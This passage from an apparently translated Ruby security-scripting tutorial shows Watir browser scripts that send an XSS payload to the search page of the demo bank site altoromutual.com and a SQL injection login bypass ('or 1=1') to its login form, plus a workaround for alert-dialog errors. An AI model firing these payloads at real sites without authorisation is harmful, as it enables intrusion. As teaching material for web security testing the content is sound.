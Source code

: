 ```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'watir'

browser = Watir::Browser.new :firefox
browser.goto "http://www.altoromutual.com/search.aspx?"
browser.text_field(name: 'txtSearch').set("<img src=x onerror='alert(1)'>")
btn = browser.button(value: 'Go')
puts btn.exists?
btn.click

# browser.close 
```

有时，您需要从 URL 发送 XSS GET 请求，例如`http://app/search?q=<script>alert</script>`。如果弹出了警报框，您将面临已知错误`Selenium::WebDriver::Error::UnhandledAlertError: Unexpected modal dialog`，但如果刷新页面以发送有效负载，它将起作用，因此解决此问题的方法如下。

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'watir'

browser = Watir::Browser.new :firefox
wait = Selenium::WebDriver::Wait.new(:timeout => 15)

begin
    browser.goto("http://www.altoromutual.com/search.aspx?txtSearch=<img src=x onerror=alert(1)>")
rescue Selenium::WebDriver::Error::UnhandledAlertError
    browser.refresh
    wait.until {browser.alert.exists?}
end

if browser.alert.exists?
  browser.alert.ok
  puts "[+] Exploit found!"
  browser.close
end 
```

### POST 请求

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'watir'

browser = Watir::Browser.new :firefox
browser.window.resize_to(800, 600)
browser.window.move_to(0, 0)
browser.goto "http://www.altoromutual.com/bank/login.aspx"
browser.text_field(name: 'uid').set("' or 1=1;-- ")
browser.text_field(name: 'passw').set("password")
btn = browser.button(name: 'btnSubmit').click

# browser.close 
```
